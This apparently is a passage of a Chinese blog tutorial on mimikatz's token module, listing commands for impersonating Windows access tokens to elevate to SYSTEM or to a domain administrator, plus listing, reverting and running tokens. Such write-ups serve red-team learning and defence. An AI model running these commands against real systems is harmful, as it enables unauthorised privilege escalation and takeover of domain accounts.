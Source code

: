 ![](data:image/gif;base64,R0lGODlhAQABAPABAP///wAAACH5BAEKAAAALAAAAAABAAEAAAICRAEAOw==)

![](https://img-blog.csdnimg.cn/20201007165134964.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L1BpbmdfUGln,size_16,color_FFFFFF,t_70)![](data:image/gif;base64,R0lGODlhAQABAPABAP///wAAACH5BAEKAAAALAAAAAABAAEAAAICRAEAOw==)​  


### \*\*\*\*[**token**](https://github.com/gentilkiwi/mimikatz/wiki/module-~-token)\*\*\*\*

**elevate：模拟令牌。用于将权限提升为system（默认），或使用在windows api中找到域管理员令牌**  


```text
token::elevate
```

![](data:image/gif;base64,R0lGODlhAQABAPABAP///wAAACH5BAEKAAAALAAAAAABAAEAAAICRAEAOw==)

![](https://img-blog.csdnimg.cn/20201007165414837.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L1BpbmdfUGln,size_16,color_FFFFFF,t_70)![](data:image/gif;base64,R0lGODlhAQABAPABAP///wAAACH5BAEKAAAALAAAAAABAAEAAAICRAEAOw==)​  


在框中找到一个域管理员凭据，然后使用该令牌  


```text
token::elevate /domainadmin
```

![](data:image/gif;base64,R0lGODlhAQABAPABAP///wAAACH5BAEKAAAALAAAAAABAAEAAAICRAEAOw==)

![](https://img-blog.csdnimg.cn/20201007165511541.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L1BpbmdfUGln,size_16,color_FFFFFF,t_70)![](data:image/gif;base64,R0lGODlhAQABAPABAP///wAAACH5BAEKAAAALAAAAAABAAEAAAICRAEAOw==)​  


**list：列出系统的所有令牌**

```text
token::list
```

![](data:image/gif;base64,R0lGODlhAQABAPABAP///wAAACH5BAEKAAAALAAAAAABAAEAAAICRAEAOw==)

![](https://img-blog.csdnimg.cn/20201007165620297.png)![](data:image/gif;base64,R0lGODlhAQABAPABAP///wAAACH5BAEKAAAALAAAAAABAAEAAAICRAEAOw==)​  


**revert：恢复进程令牌**  


```text
token::revert
```

![](data:image/gif;base64,R0lGODlhAQABAPABAP///wAAACH5BAEKAAAALAAAAAABAAEAAAICRAEAOw==)

![](https://img-blog.csdnimg.cn/20201007165709538.png)![](data:image/gif;base64,R0lGODlhAQABAPABAP///wAAACH5BAEKAAAALAAAAAABAAEAAAICRAEAOw==)​  


**run**  


```text
token::run
```
